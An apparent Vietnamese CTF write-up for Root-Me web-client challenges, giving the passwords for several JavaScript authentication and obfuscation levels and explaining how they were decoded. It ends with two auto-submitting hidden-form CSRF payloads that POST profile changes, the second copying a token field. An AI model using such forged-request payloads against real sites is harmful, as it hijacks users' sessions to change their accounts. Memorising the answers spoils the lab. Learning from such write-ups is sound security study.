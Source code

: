 ### Javascript - Authentication:https:http://challenge01.root-me.org/web-client/ch9/
password:`sh.org`

đầu tiên chúng ta coi source của nó: gợi ý của nó là `Javascript - Authentication` 

<img src="http://image.prntscr.com/image/4ee663b4801d4572a4419bd89e1deb92.png">

sau khi vào đoan js : ta thấy luôn password

<img src="http://image.prntscr.com/image/1689c5870fec47948f3e067b7a302f20.png">

### Javascript - Source: http://challenge01.root-me.org/web-client/ch1/ch1.html

password: `123456azerty`
câu này thuộc dạng khoai : chỉ cần coi source là có tất cả: 

<img src="http://image.prntscr.com/image/b7ad883e944644a2a961ec2de73d8083.png">

### Javascript - Authentication 2 :http://challenge01.root-me.org/web-client/ch11/
password:`HIDDEN`

câu này vào thẳng vấn đề, vào đoạn js như câu 2:
<img src="http://image.prntscr.com/image/395c50ed82aa4afd88cf7c525daada4e.png">
nhìn vào đoạn js , ta thấy password là phần tử thứ 2 của biến thelists!

###  Javascript - Obfuscation 1: http://challenge01.root-me.org/web-client/ch4/ch4.html:

password:`cpasbiendurpassword`

câu này có tăng level lên chút :v như mấy cái trước đầu tiên phải coi source của nó , 
<img src="http://image.prntscr.com/image/da801b784ee445b6a5e32f11334bf0c0.png">

- Thoạt nhìn tưởng chuối vì chữ pass to đung đập vào mắt :))! **nhưng sai** pass là 1 biến để truyền vào lệnh `unescape`.Được cái không học js nên chả biết cái lệnh quái quỉ này, sợt gu gồ liền , vào web `w3school` .Lệnh này có chức năng Mã hóa và giải mã một chuỗi !Vào phần ví dụ của lệnh này , thay phần biến str_esc bằng phần pass trong source và nhấn run : có ngay pass :D

<img src="http://image.prntscr.com/image/551b1f0aab004a2f8c562cc4a5623635.png"> 

###Javascript - Obfuscation 2:http://challenge01.root-me.org/web-client/ch12/ch12.html
password:`hDufjdki156` 
- chú ý phần gợi ý và phần source: gợi ý là : Going down 3 floors..... đi 3 tầng :)) , nhìn vào source thấy đoạn pass! có 3 hàm lồng nhau ! chính nó đấy, chỉ cần giải đoạn đó là có pass!

giải đoạn đầu tiên, hàm `unescape` y chang bài trên , coppy rồi pass vào coi nó ra cái gì

<img src="http://image.prntscr.com/image/bb9c274a2f064338a7118d7f104e8f72.png">

cái hàm `String.fromCharCode` cái này mới , hỏi bác gu gồ thôi :

`String.fromCharCode` : fromCharCode(): chuyễn mã Unicode thành ký tự

ví dụ:

document.write(String.fromCharCode(72,69,76,76,79) );//HELLO

ở bài này , chỉ cần thay vào là ra pass thôi :D! 

<img src="http://image.prntscr.com/image/fd226593f9c345f183bf3ec77361f3ab.png">

#csrf

```
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">

<label>Username:</label>
		
		<input type="hidden" name="username" value="b">
	
		<br>		
		<div class="form-group">
		<label>Status:</label>
		<input type="hidden" name="status" value="on" >




</from>

<script>document.forms["csrf"].submit()</script>// auto submit


```
----------------
```


<form id="profile" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="POST" enctype="multipart/form-data">
  <input type="hidden" name="username" value="a"/>
  <input type="hidden" name="status" value="on"/>
  <input type="hidden" id="token1" name="token" value=""/>
 
</form>

<script>

var loginForm = document.forms.profile; // Or document.forms['login']
  
 
    oko=document.forms['profile']["token"].value;// set oke= value token
      

document.getElementById("token1").value = oko; // set id['token1']=oko
document.forms["profile"].submit(); //auto submit form
</script>

```
